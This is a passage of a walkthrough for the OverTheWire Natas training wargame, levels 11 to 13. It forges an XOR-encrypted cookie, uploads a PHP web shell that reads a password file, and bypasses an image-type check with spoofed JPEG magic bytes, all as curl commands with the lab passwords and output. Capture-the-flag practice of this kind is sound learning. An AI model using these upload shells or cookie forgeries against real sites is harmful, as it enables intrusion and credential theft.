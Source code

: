 			// Iterate through each character
			for($i=0;$i<strlen($text);$i++) {
				$key .= $text[$i] ^ $outText[$i % strlen($outText)];
			}
			echo $key;
		?>
		...

		Running this we should see: qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq
		So, let's plugin "qw8J" and see if our output matches our original cookie.

		...
		<?php
			$key = 'qw8J';
			$text = '{"showpassword":"no","bgcolor":"#ffffff"}';
			$outText = '';

			// Iterate through each character
			for($i=0;$i<strlen($text);$i++) {
				$outText .= $text[$i] ^ $key[$i % strlen($key)];
			}
			echo base64_encode($outText);
		?>
		...

		You should see "ClVLIh4ASCsCBE8lAxMacFMZV2hdVVotEhhUJQNVAmhSEV4sFxFeaAw=" which matches our cookie!

	7. So, we can write our own data cookie now, let's set showpassword='yes'
		...
		php > $key = 'qw8J'; $text = '{"showpassword":"yes","bgcolor":"#ff0000"}'; $outText = ''; for($i=0;$i<strlen($text);$i++) {$outText .= $text[$i] ^ $key[$i % strlen($key)];} echo base64_encode($outText);
			ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sQUcIelMK
		...
	8. curl -b "data=ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sQUcIelMK" http://natas11:U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK@natas11.natas.labs.overthewire.org/
		...
		The password for natas12 is EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
		...
natas12:
	1. Visit http://natas12.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3"
	6. $ echo "<?php echo passthru('cat /etc/natas_webpass/natas13'); ?>" > foo.php
	7. $ curl -F submit="Upload File" -F filename="test.php" -F uploadedfile=@"foo.php" http://natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3@natas12.natas.labs.overthewire.org/index.php
		...
		The file <a href="upload/j3yb2nk300.php">upload/j3yb2nk300.php</a> has been uploaded<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
		...
	8. $ curl http://natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3@natas12.natas.labs.overthewire.org/upload/j3yb2nk300.php
		...
		jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
		...
natas13:
	1. Visit http://natas13.natas.labs.overthewire.org
	2. We're prompted with an Authentication dialog.
	3. Login with "natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY"
	4. $ curl http://natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY@natas13.natas.labs.overthewire.org/
	5. Prompted that there's image header verification going on. Let's spoof a jpg ( https://en.wikipedia.org/wiki/List_of_file_signatures )
	5. $ printf "\xFF\xD8\xFF\xE0<?php echo passthru('cat /etc/natas_webpass/natas14'); ?>" > foo2.jpg
	6. $ curl -F submit="Upload File" -F filename="test.php" -F uploadedfile=@"foo2.jpg" http://natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY@natas13.natas.labs.overthewire.org/
		...